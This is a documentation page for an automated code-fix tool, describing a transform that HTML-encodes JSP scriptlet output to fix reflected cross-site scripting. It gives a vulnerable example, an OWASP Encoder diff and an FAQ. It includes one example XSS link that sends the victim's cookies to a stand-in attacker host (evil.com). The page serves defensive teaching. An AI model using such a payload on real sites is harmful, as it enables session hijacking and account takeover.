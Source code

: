 ```yaml
---
title: "Encode Untrusted Scriptlet Contents"
sidebar_position: 1
---
```


## pixee:java/encode-jsp-scriptlet

| Importance | Review Guidance            | Requires SARIF Tool |
|------------|----------------------------|---------------------|
 | High       | Merge After Cursory Review | No                  |


This transform encodes certain JSP scriptlets to fix what appear to be trivially exploitable [Reflected Cross-Site Scripting (XSS)](https://portswigger.net/web-security/cross-site-scripting) vulnerabilities in JSP files. XSS is a vulnerability that is tricky to understand initially, but really easy to exploit.

Consider the following example code:

```java
Welcome to our site <%= request.getParameter("name") %>
```

An attacker could construct a link with an HTTP parameter `name` containing malicious JavaScript and send it to the victims, and if they click it, cause it to execute in the victims' browsers in the domain context. This could allow attackers to exfiltrate session cookies and spoof their identity, perform actions on victim's behalf, and more generally "do anything" as that user. Here's an example of such an evil link used by attacker to leak the victim's cookies back to their evil site logs:

`https://bank.com/search?name=<script>document.location='http://evil.com/?'+document.cookie</script>`

Our changes introduce an HTML-encoding mechanism that look something like this:

```diff
-Welcome to our site <%= request.getParameter("name") %>
+Welcome to our site <%= org.owasp.encoder.Encode.forHtml(request.getParameter("name")) %>
```

This change encodes HTML control characters that attackers would use to execute code. 

If you have feedback on this transform, [please let us know](mailto:feedback@pixee.ai)!

## F.A.Q. 

### Why is this transform marked as Merge After Cursory Review?

This change is safe and effective in almost all situations. However, depending on the context in which the scriptlet is rendered (e.g., inside an HTML tag, in JavaScript, unquoted contexts, etc.), you may need to use another encoding method. Check out the [OWASP XSS Prevention CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) to learn more about these cases and other controls you may need in exceptional cases. The security control introduced from OWASP used has `forHtml()` variants for all situations (e.g., `forJavaScript()`, `forCssString()`).

## Transform Settings

N/A

## References
* [Security Control (OWASP Encode.java) source code](https://github.com/OWASP/owasp-java-encoder/blob/main/core/src/main/java/org/owasp/encoder/Encode.java#L143)
* [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
* [https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
* [https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
